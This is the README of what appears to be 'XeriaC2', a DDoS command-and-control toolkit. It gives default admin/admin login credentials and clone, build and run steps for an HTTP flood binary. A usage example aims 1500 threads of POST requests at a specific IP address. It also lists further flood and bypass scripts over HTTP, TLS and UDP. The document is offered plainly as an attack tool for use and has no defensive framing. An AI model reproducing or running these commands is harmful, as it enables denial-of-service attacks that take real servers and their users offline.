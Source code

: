 ## ADMIN/PASSWORD
Username : admin
Password : admin

## How To Install : 

git clone https://github.com/levanderdev/XeriaC2

cd XeriaC2

python xeriac2.py

## Wanna Update Method?
remove file XeriaC2
Open Terminal
Paste :

git clone https://github.com/levanderdev/XeriaC2

cd XeriaC2

and scroll you can get the method maybe node HTTP-FLOOD.js 

----
WANNA USE HTTP-FLOOD.go?
STEP BY STEP :
## INSTALL : 

https://github.com/levanderdev/XeriaC2

cd XeriaC2

go mod init http 

go get github.com/valyala/fasthttp
go build 

./http

## USAGE : 
./http <target> <GET/POST> <threads>
example: ./http http://51.159.30.249 POST 1500


## Methods : 

node BYPASS.js

node Tlsv1.js

go run STRONG-CFB.go

node HTTP-RAW.js

node http-get.js

node tls.js

python udp.py

python UDP.py

./http

The Methods Js,Golang,Python

PLEASE STAR WITH YOU SUPPORT ME


## How To Install/Setup

https://github.com/levanderdev/XeriaC2/assets/86545190/b02456da-afa0-453c-b6f6-4e31de2aa570
